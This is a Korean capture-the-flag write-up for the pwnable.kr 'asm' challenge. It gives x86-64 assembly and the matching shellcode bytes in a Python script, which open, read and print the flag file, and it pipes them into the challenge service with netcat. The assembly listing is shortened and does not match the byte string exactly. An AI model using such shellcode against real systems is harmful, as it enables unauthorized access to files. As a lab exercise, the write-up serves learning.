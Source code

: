 ```avrasm 
mov rax, 0x2e656c62616e7770
push rax
mov rax, 0x5f73695f73696874
push rax
	


	mov rdx, 0x0
	mov rsi, 0x0
	mov rdi, rsp
	mov rax, 2
	syscall	

	mov rdi, rax
	mov rsi, 0x41414800
	mov rdx, 100
	mov rax, 0
	syscall

	mov rdi, 1
	mov rsi, 0x41414800
	mov rdx, 100
	mov rax, 1
	syscall
```

위의 소스로 쉘코드를 만들어 주면 된다.

objdump -D '실행파일명' 을 뽑아내어 쉘코드를 하나하나 숫자를 이어붙여도 되지만
편하게 하기위해서 
https://defuse.ca/online-x86-assembler.htm 이곳에서 위의 소스를 붙여넣어주면 우리는 쉘코드를 획득할 수 있다.

그렇게 변환시켜주게 되면 나온 소스를 pwnable 서버에 파이썬 소스를 만들어 실행시켜주어야 한다.
```python
a = "\x48\xB8\x6F\x30\x6F\x30\x6F\x6E\x67\x00\x50\x48\xB8\x6F\x30\x6F\x30\x6F\x30\x6F\x30\x50\x48\xB8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xB8\x6F\x6F\x6F\x6F\x30\x30\x30\x30\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x30\x30\x30\x30\x30\x6F\x6F\x6F\x50\x48\xB8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xB8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xB8\x6F\x6F\x6F\x6F\x30\x30\x30\x30\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x73\x5F\x76\x65\x72\x79\x5F\x6C\x50\x48\xB8\x65\x5F\x6E\x61\x6D\x65\x5F\x69\x50\x48\xB8\x5F\x74\x68\x65\x5F\x66\x69\x6C\x50\x48\xB8\x6C\x65\x2E\x73\x6F\x72\x72\x79\x50\x48\xB8\x5F\x74\x68\x69\x73\x5F\x66\x69\x50\x48\xB8\x61\x73\x65\x5F\x72\x65\x61\x64\x50\x48\xB8\x66\x69\x6C\x65\x5F\x70\x6C\x65\x50\x48\xB8\x6B\x72\x5F\x66\x6C\x61\x67\x5F\x50\x48\xB8\x70\x77\x6E\x61\x62\x6C\x65\x2E\x50\x48\xB8\x74\x68\x69\x73\x5F\x69\x73\x5F\x50\x48\xC7\xC2\x00\x00\x00\x00\x48\xC7\xC6\x00\x00\x00\x00\x48\x89\xE7\x48\xC7\xC0\x02\x00\x00\x00\x0F\x05\x48\x89\xC7\x48\xC7\xC6\x00\x48\x41\x41\x48\xC7\xC2\x64\x00\x00\x00\x48\xC7\xC0\x00\x00\x00\x00\x0F\x05\x48\xC7\xC7\x01\x00\x00\x00\x48\xC7\xC6\x00\x48\x41\x41\x48\xC7\xC2\x64\x00\x00\x00\x48\xC7\xC0\x01\x00\x00\x00\x0F\x05"

import sys

sys.stdout.write(a)
```

이렇게 만든 파이썬 소스를  tmp폴더에 자신만의 다른 폴더를 만들고 소스를 넣어주고 난 후에 asm에 돌리면 fake flag라고 뜬다.
그래서 readme 파일을 만들어보면 nc 0 9026으로 보내주라고 나온다.

따라서 우리는 python /tmp/자신이만든 폴더/만든 소스.py | nc 0 9026 을 입력해 주면 우리가 원하는 플래그가 나온다.
  
 